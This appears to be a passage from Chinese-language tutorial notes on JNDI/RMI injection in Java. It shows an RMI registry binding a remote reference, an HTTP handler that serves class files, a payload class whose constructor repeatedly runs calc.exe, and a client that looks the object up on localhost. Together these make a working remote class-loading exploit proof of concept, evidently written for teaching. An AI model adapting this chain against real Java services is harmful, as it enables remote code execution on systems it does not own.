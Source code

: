 ```
        registry.bind("object", refObjWrapper);
    }
}
```

```
import com.sun.net.httpserver.*;
import java.io.*;

public class HttpFileHandler implements HttpHandler {
    public void handle(HttpExchange httpExchange) {
        try {
            System.out.println("new http request from "+httpExchange.getRemoteAddress()+" "+httpExchange.getRequestURI());
            InputStream inputStream = HttpFileHandler.class.getResourceAsStream(httpExchange.getRequestURI().getPath());
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            while(inputStream.available()>0) {
                byteArrayOutputStream.write(inputStream.read());
            }

            byte[] bytes = byteArrayOutputStream.toByteArray();
            httpExchange.sendResponseHeaders(200, bytes.length);
            httpExchange.getResponseBody().write(bytes);
            httpExchange.close();
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```

```
public class ExportObject {
    public ExportObject() {
        try {
            while(true) {
                System.out.println("running injected code...");
                Runtime.getRuntime().exec("calc.exe");
                Thread.sleep( 1000 );
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```

### Client端

```
import javax.naming.Context;
import javax.naming.InitialContext;

public class ClientTest {

    public static void main(String[] args) throws Exception {
		//从绑定的目录中读取到类
        String uri = "rmi://127.0.0.1:1099/object";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```

